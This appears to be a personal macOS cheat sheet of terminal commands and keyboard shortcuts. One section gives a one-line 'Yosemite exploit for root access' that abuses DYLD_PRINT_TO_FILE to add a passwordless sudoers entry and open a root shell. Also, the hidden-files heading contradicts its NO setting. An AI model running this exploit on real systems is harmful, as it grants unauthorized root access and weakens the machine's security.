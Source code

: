 ### Always show hidden files

```bash
defaults write com.apple.finder AppleShowAllFiles NO
```

### Start Apache on system startup

```bash
sudo launchctl load -w /System/Library/LaunchDaemons/org.apache.httpd.plist
```

### Keyboard shortcuts

```bash
DEL = FN + BACKSPACE
PAGEUP/PAGEDOWN = FN + UP/DOWN
END = FN + RIGHT
HOME = FN + LEFT
MINIMIZE CURRENT WINDOW = CMD + M
SCREEN SHOT (PART) = CMD + SHIFT + 4
SCREEN SHOT (DESKTOP) = CMD + SHIFT + 3
CLOSE ACTIVE WINDOW = CMD + W
EXIT PROGRAM = CMD + Q
```

### Yosemite exploit for root access

```bash
echo 'echo "$(whoami) ALL=(ALL) NOPASSWD:ALL" >&3' | DYLD_PRINT_TO_FILE=/etc/sudoers newgrp; sudo -s
```

### Add mysql to terminal shell

```bash
echo 'export PATH=/usr/local/mysql/bin:$PATH' >> ~/.bash_profile
. ~/.bash_profile
```

### Install file (e.g. composer.phar) globally

```bash
sudo mv %file% /usr/local/bin/%file%
```
